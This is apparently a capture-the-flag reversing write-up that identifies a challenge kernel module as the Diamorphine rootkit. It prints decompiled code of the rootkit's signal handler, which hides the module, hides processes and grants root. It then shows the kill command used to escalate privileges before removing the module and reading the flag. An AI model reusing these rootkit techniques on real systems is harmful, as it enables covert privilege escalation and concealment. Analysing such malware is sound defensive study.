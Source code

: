 # Cyberpsychosis

## Recon

```plaintext
┌──(quickemu㉿hacking-kali)-[/workspace/rev_cyberpsychosis]
└─$ file diamorphine.ko 
diamorphine.ko: ELF 64-bit LSB relocatable, x86-64, version 1 (SYSV), BuildID[sha1]=e6a635e5bd8219ae93d2bc26574fff42dc4e1105, with debug_info, not stripped
```

Given README file mentions "Victor N. Ramos Mello". We find [GitHub repo with same name as binary](https://github.com/m0nad/Diamorphine), this is a rootkit (kernel module).

Features:

- Module starts invisible
- Hide/unhide any process by sending a signal (31 by default)
- Sending a signal (63 by default) to any PID makes the module become (in)visible
- Sending a signal (64 by default) to any PID makes the given user become root
- Files or directories starting with the `MAGIC_PREFIX` (`diamorphine_secret` by default) become invisible

## Reversing

Build project from source and compare with given binary.

`MAGIC_PREFIX` is stored at start of `.rodata.str1.1` segment. It's `psychosis` for given binary.

```plaintext
00000000: 70 73 79 63 68 6f 73 69 73                       psychosis
```

Function `hacked_kill` contains a `switch` statement with the different signal values.

```c
int hacked_kill(pt_regs* pt_regs) {
    undefined1* puVar1;
    list_head* plVar2;
    int iVar3;
    long lVar4;
    undefined* puVar5;

    plVar2 = module_previous;
    iVar3 = (int)pt_regs->si;
    if (iVar3 == 0x2e) {
        if (module_hidden != 0) {
            __this_module.list.next = module_previous->next;
            (__this_module.list.next)->prev = &__this_module.list;
            __this_module.list.prev = plVar2;
            module_hidden = 0;
            plVar2->next = (list_head*)0x1010c8;
            return 0;
        }
        iVar3 = 0;
        (__this_module.list.next)->prev = __this_module.list.prev;
        module_previous = __this_module.list.prev;
        (__this_module.list.prev)->next = __this_module.list.next;
        __this_module.list.next = (list_head*)0xdead000000000100;
        __this_module.list.prev = (list_head*)0xdead000000000122;
        module_hidden = 1;
    } else if (iVar3 == 0x40) {
        lVar4 = prepare_creds();
        iVar3 = 0;
        if (lVar4 != 0) {
            *(undefined8*)(lVar4 + 4) = 0;
            *(undefined8*)(lVar4 + 0xc) = 0;
            *(undefined8*)(lVar4 + 0x14) = 0;
            *(undefined8*)(lVar4 + 0x1c) = 0;
            commit_creds(lVar4);
            return iVar3;
        }
    } else {
        puVar5 = &init_task;
        if (iVar3 == 0x1f) {
            do {
                puVar1 = *(undefined1**)(puVar5 + 0x8b8);
                puVar5 = puVar1 + -0x8b8;
                if (puVar1 == &DAT_001028f0) {
                    return -3;
                }
            } while ((int)pt_regs->di != *(int*)(puVar1 + 0x108));
            if (puVar5 == (undefined*)0x0) {
                return -3;
            }
            *(uint*)(puVar1 + -0x88c) = *(uint*)(puVar1 + -0x88c) ^ 0x10000000;
            return 0;
        }
        lVar4 = (*orig_kill)(pt_regs);
        iVar3 = (int)lVar4;
    }
    return iVar3;
}
```

- Signal 46 to make the module become (in)visible
- Signal 64 to make the given user become root
- Signal 31 to hide/unhide any process

```plaintext
~ $ kill -64 1
kill -64 1

/root # lsmod
lsmod
diamorphine 16384 0 - Live 0xffffffffc03c0000 (OE)

rmmod diamorphine

find / -name '*psychosis*' 2>/dev/null
/opt/psychosis

/opt/psychosis # cat flag.txt
cat flag.txt
HTB{N0w_Y0u_C4n_S33_m3_4nd_th3_r00tk1t_h4s_b33n_sUcc3ssfully_d3f34t3d!!}
```
